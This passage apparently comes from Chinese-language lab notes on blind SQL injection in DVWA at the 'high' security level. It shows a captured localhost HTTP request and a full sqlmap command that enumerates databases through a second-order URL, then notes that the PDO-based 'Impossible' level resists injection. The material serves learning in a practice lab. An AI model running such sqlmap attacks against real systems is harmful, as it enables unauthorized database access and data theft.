 http_request.txt
```http=
POST /vulnerabilities/sqli_blind/cookie-input.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://localhost
Connection: close
Referer: http://localhost/vulnerabilities/sqli_blind/cookie-input.php
Cookie: id=1; PHPSESSID=4e90cfac8263d1fbfd39d824073afd4d; security=high;
Upgrade-Insecure-Requests: 1

id=1&Submit=Submit
```


最後
```
python D:\SQL_map\sqlmap-master\sqlmap.py -r "http_request.txt"  --second-url "http://localhost/vulnerabilities/sqli_blind/" --level 2 --batch --dbs

```

當然我這種改包的方式，可能容易誤導，所以還是可以乖乖的用命令行  一個個參數加 最後加上cookie 可能會容易看一些。



# Impossilbe:

加上PDO 無法注入。


